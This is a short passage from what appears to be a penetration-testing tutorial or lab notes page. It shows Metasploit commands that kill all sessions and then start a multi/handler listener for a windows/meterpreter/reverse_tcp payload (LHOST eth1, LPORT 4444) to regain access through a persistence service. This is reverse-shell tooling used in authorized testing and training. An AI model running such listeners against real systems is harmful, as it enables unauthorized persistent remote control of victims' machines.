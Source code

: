 <figure><img src="../../../../../.gitbook/assets/image (28) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
exit
sessions -K # Kill all sessions
```

<figure><img src="../../../../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

* Regain access to the system

```bash
use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```
